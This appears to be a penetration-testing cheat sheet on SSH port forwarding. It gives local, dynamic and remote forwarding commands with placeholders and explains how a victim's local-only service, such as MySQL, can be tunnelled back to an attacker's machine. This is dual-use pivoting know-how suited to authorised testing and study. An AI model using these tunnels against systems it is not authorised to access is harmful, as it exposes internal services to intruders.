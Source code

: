 ### From Attacking Device

#### Connect to a port on another device

```bash
ssh -N -L [local_port]:[target_ip]:[target_port] [user]@[target]
```

Examples:

Opens 3389 locally. Connected to 3389 locally will forward traffic to 10.1.1.10 on port 3389:

```bash
ssh -N -L 3389:10.1.1.10:3389 [user]@[target]

```

```bash
sudo ssh -N -L [local_port]:127.0.0.1:[target_port] [user]@[target]
```

Dynamic Port Forwarding:

```bash
sudo ssh -N -D 127.0.0.1:1080 [user]@[target]
```

### From Victim

This setup creates a new port on the attacker's machine `[target]`, which forwards traffic originating from the victim's machine (`127.0.0.1`). If a service (e.g., MySQL on port `3306`) is only accessible locally on the victim (`127.0.0.1:3306`), SSH remote port forwarding can be used to expose it to the attacker's machine.

```bash
ssh -N -R [local_port]:127.0.0.1:[target_port] [user]@[target]
```

or, to restrict access to a specific IP on the attacker's machine:

```bash
ssh -N -R [attacker_ip]:[local_port]:127.0.0.1:[target_port] [user]@[target]
```

Example

```bash
ssh -N -R 3389:127.0.0.1:3389 [user]@[target]
ssh -N -R 10.10.5.1:3389:127.0.0.1:3389 [user]@[target]
```